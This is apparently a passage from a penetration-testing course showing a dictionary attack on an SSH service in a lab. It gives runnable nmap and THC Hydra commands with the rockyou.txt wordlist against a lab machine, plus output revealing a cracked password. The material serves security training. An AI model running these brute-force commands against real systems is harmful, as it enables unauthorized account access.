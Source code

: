 On the other hand, dictionary attacks attempt to authenticate to services with passwords from lists of common words (_wordlists_). If the correct password is not contained in the wordlist, the dictionary attack will fail.

In this Learning Unit, we'll use dictionary attacks to discover valid credentials for network services and HTTP login forms.

## 16.1.1. SSH and RDP

In this section, we'll execute dictionary attacks against the common SSH and RDP services using the open-source [_THC Hydra_](https://github.com/vanhauser-thc/thc-hydra) tool, which can execute a broad variety of password attacks against a variety of network services and protocols. We'll also use the popular **rockyou.txt** wordlist, which contains over 14 million passwords. Both of these are pre-installed on our Kali machine.

To begin, we will start the BRUTE machine (VM #1 under Resources). In the first example, we'll attack the SSH service (port 2222) on this machine, which has an IP address of 192.168.50.201. We'll attempt to determine the password for the user _george_.

The IP address of BRUTE may differ in your environment.

Before we start our dictionary attack, we should confirm that the target is running an SSH service on port 2222.

```
kali@kali:~$ sudo nmap -sV -p 2222 192.168.50.201
...
PORT   STATE SERVICE
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
```

> Listing 1 - Checking if target is running a SSH service

The output indicates that SSH is open. Let's assume that through the _information gathering process_ we have already discovered the _george_ user.

It's worth noting that the format of the username also suggests that the company may use the first name of the user for account names. This information may assist us in later information gathering attempts.

Next, let's prepare to use the **rockyou.txt** wordlist file. Since the file is compressed to save space, we must uncompress it with [**gzip -d**](https://www.gnu.org/software/gzip/). Finally, we can run **hydra**.

We'll attack a single username with **\-l george**, specify the port with **\-s**, indicate our password list with **\-P** and define our target with **ssh://192.168.50.201**:

```
kali@kali:~$ cd /usr/share/wordlists/

kali@kali:~$ ls
dirb  dirbuster  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt.gz  wfuzz

kali@kali:~$ sudo gzip -d rockyou.txt.gz

kali@kali:~$ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.50.201:22/
[2222][ssh] host: 192.168.50.201   login: george   password: chocolate
1 of 1 target successfully completed, 1 valid password found
...
```
